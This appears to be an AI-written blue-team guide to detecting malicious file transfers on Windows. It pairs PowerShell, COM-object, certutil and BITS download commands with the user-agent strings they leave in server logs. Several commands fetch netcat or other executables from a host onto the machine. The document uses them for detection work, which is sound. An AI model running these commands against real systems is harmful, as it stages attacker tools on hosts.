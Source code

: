 
Defenders focus on detecting suspicious or malicious file transfers, even when attackers try to blend in with normal system behavior.

---

## **1. Command-Line Monitoring**

### **Blacklisting**

- ❌ Weak: easy to bypass with obfuscation or case changes (e.g., `InVoKe-WeBReQueST`).
    

### **Whitelisting**

- ✅ Stronger: allows only approved commands or behaviors.
    
- ✅ Works best with **baselining**, learning what’s normal in the environment.
    

---

## **2. User-Agent Strings: Detection Clues**

Most HTTP/HTTPS requests include a **user-agent string** that identifies the tool or script making the request.

### **Detection Best Practices**

- Baseline all **legitimate user agents** used by apps and systems.
    
- Create **alerts for unknown or uncommon agents**.
    
- Use **SIEM/EDR solutions** to enrich logs and analyze behaviors.
    

---

## **3. Tool Detection Signatures**

### **A. PowerShell Web Cmdlets**

**Example Command:**

```powershell
Invoke-WebRequest http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"
```

**Server Log User-Agent:**

```
WindowsPowerShell/5.1.14393.0
```

**Detection:** Easily fingerprinted by PowerShell version.

---

### **B. WinHttpRequest COM Object**

**Example Command:**

```powershell
$h = New-Object -com WinHttp.WinHttpRequest.5.1
$h.open('GET','http://target/file.exe',$false)
$h.send()
```

**Server Log User-Agent:**

```
Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
```

**Detection:** Outdated, suspicious signature.

---

### **C. Msxml2.XMLHTTP COM Object**

**Example Command:**

```powershell
$h = New-Object -ComObject Msxml2.XMLHTTP
$h.open('GET','http://target/file.exe',$false)
$h.send()
```

**Server Log User-Agent:**

```
Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; ...)
```

**Detection:** Mimics old IE versions — rarely legitimate today.

---

### **D. Certutil.exe**

**Example Command:**

```powershell
certutil -urlcache -split -f http://target/nc.exe
```

**Server Log User-Agent:**

```
Microsoft-CryptoAPI/10.0
```

**Detection:** Commonly flagged by modern defenses like AMSI.

---

### **E. BITS Transfer**

**Example Command:**

```powershell
Import-Module bitstransfer
Start-BitsTransfer http://target/nc.exe C:\Temp\nc.exe
```

**Server Log User-Agent:**

```
Microsoft BITS/7.8
```

**Detection:** Blends in with legitimate update traffic — stealthier but still detectable with behavior analysis.

---

## **4. Detection Tips for Blue Teams**

- Build a **baseline of normal user behavior** and known-good processes.
    
- Monitor unusual **command-line arguments** and **user-agent strings**.
    
- Use **behavior-based detection** instead of simple keyword blacklisting.
    
- Correlate logs across systems with SIEM or EDR for better visibility.
    

---

## **Summary**

Malicious file transfers can often be detected by monitoring **command-line usage, network traffic, and user-agent strings**. While attackers use obfuscation and stealth techniques, defenders can counter with:

- **Whitelisting and baselining**
    
- **Behavioral analysis**
    
- **Correlated monitoring** across endpoints and networks.
    

---

Would you like me to turn this into a **quick-reference detection cheat sheet** for blue teams?